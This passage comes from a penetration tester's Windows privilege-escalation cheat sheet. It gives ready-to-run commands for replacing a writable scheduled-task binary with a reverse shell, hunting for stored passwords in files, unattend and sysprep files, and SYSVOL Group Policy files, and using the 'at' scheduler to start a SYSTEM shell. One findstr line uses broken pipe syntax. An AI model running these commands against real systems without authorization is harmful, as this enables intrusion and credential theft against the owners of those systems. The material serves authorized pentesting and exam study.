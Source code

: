 Resources:
* http://www.fuzzysecurity.com/tutorials/16.html
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* ExploitDB: https://www.exploit-db.com/dll-hijacking-vulnerable-applications/
* `searchsploit [program] dll`. Find ones that has "DLL Hijacking" in the name

#### Task Scheduler Weak File/Folder Permissions

```cmd
schtasks /query /fo LIST /v
# Look at the "Task To Run" within the task list. Eg: E:\GrabLogs\tftp.exe 10.1.1.99 GET ...
cacls "E:\GrabLogs"
# If Authenticated Users or Users or equivalent has modify permissions, simply replace the binary within with a reverse shell
copy shell.exe E:\GrabLogs\tftp.exe
```

#### Stored Credentials
```cmd
dir c:\*pass*.txt /s /b
dir c:\*vnc.ini /s /b /c
dir c:\*ultravnc.ini /s /b /c
dir c:\ /s /b /c | findstr /si *vnc.ini
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
type C:\unattend.xml
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
```

Retrieving credentials stored within GPP files from Domain Controller:
```cmd
net use z: \\dc01\SYSVOL # whr dc01 is the Domain Controller
cd C:\Windows\SYSVOL # or cd in, if you are the Domain Controller already
dir /s Groups.xml
findstr -si cpassword C:\..\Groups.xml
# within Groups.xml file, find "cpassword", then gpp-decrypt them on kali
```

#### Administrator to SYSTEM (Not Required) (Not an Issue)

##### Task Scheduler
This method only works on a Windows 2000, XP, or 2003 machine. And this requires local administrator access. Creates a high-priv shell using task scheduler.
```cmd
time
# set the following to 1min after current time
at 01:23 /interactive "C:\shell.exe" # to open reverse shell
at 01:23 /interactive cmd.exe # to open cmd with System privileges, only works when you have GUI
```
Resources:
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

###### Reconfigure a Service
Refer to Insecure Service Permissions.
